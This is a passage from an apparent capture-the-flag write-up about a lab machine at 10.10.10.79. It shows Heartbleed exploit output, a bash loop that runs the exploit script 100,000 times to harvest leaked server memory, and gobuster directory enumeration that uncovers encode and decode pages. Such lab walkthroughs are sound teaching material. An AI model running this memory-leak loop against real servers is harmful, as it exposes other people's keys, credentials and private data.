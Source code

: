       00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
      00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 BF 6B 6E 41  ....#........knA
      00e0: 39 66 FE 4D BC F2 D4 12 DD 9E 97 59 61 A9 1D 4D  9f.M.......Ya..M
      00f0: 77 11 D3 8B 4F 11 AD 87 2F 50 B9 4E 13 E7 92 86  w...O.../P.N....
      0100: F1 0B 04 3B 97 CB 19 00 0B 00 0C 00 18 00 09 00  ...;............
      0110: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
      0120: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
      0130: 10 00 11 00 23 00 00 00 0D 00 20 00 1E 06 01 06  ....#..... .....
      0140: 02 06 03 05 01 05 02 05 03 04 01 04 02 04 03 03  ................
      0150: 01 03 02 03 03 02 01 02 02 02 03 00 0F 00 01 01  ................
      0160: 00 15 00 9C 00 00 00 00 00 00 00 00 00 00 00 00  ................
    
    WARNING: server returned more data than it should - server is vulnerable!
    

I ran it a ton of times to collect a bunch of data: `for i in $(seq 1 100000); do python 32764.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00" > data_dump/data_dump$i; done`

The use fdupes to remove duplicates:

    
    
    apt install fdupes
    fdupes -rf . | grep -v '^$' > files
    xargs -a files rm -v
    

In this data, there were a few interesting bits:

  * The existence of `/encode.php` and `/decode.php`
  * `decode.php..Content-Type: application/x-www-form-urlencoded..Content-Length: 42....$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==`
    * that decodes to `heartbleedbelievethehype`
  * something that looked like an md5, but didn’t crack easily

### gobuster

After collecting a lot of data but seeing no clear way forward, get back to
enumeration. gobuster:

    
    
    root@kali# gobuster -u http://10.10.10.79/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html
    
    Gobuster v1.4.1              OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://10.10.10.79/
    [+] Threads      : 10
    [+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Status codes : 200,204,301,302,307
    [+] Extensions   : .txt,.php,.html
    =====================================================
    /index (Status: 200)
    /index.php (Status: 200)
    /dev (Status: 301)
    /encode (Status: 200)
    /encode.php (Status: 200)
    /decode (Status: 200)
    /decode.php (Status: 200)
    /omg (Status: 200)
    